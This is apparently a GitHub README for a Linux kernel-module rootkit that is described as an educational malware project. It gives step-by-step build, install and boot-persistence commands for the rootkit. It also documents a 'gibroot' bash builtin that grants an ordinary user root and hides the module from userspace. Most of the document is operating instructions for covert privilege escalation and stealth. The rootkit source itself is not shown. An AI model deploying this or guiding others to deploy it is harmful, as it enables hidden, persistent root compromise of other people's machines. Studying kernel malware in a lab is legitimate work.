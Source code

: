 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use 
```
gibroot smod
```
UNDER CONSTRUCTION

